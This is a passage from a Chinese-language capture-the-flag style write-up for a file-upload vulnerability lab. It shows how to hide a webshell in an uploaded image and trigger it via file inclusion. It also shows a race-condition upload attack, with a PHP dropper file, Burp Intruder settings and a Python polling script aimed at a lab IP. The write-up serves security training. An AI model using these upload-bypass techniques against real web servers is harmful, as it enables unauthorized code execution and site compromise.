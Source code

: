 ![image-20221201141903796](http://image.jh2ing.com/image-20221201141903796.png)

通过对比上传前后的图片，发现后面的位置已经发生改变，在没有发生改变的位置插入webshell

![image-20221201153843612](http://image.jh2ing.com/image-20221201153843612.png)

上传成功之后利用文件包含漏洞访问。

![image-20221201153915116](http://image.jh2ing.com/image-20221201153915116.png)

以下参考其他类型图片

> https://xz.aliyun.com/t/2657#toc-1

#### Pass-17

主要测试条件竞争，对于非法文件进行了删除操作，服务器对文件的读取和删除包括代码执行都需要时间，在这一小段时间内，文件仍然存在于服务器上，你就可以进行触发等操作。

编写`compete.php`

```php
<?php fputs(fopen('bin.php','w'),'<?php phpinfo(); ?>');?>
```

burp抓取上传数据包到intruder模块

![image-20221201160130490](http://image.jh2ing.com/image-20221201160130490.png)

设置payload

![image-20221201160331159](http://image.jh2ing.com/image-20221201160331159.png)

设置线程200

![image-20221201160439994](http://image.jh2ing.com/image-20221201160439994.png)

![image-20221201160404927](http://image.jh2ing.com/image-20221201160404927.png)

然后编写脚本来访问

```python
while True:
    response = requests.get("http://192.168.73.139/upload/compete.php")
    code = response.status_code
    if code == 200:
        print("OK")
        break
    else:
        print("NO")
```

多次访问之后发现状态码返回200，说明已经成功执行了php文件

![image-20221201161911017](http://image.jh2ing.com/image-20221201161911017.png)

直接访问webshell创建的php文件
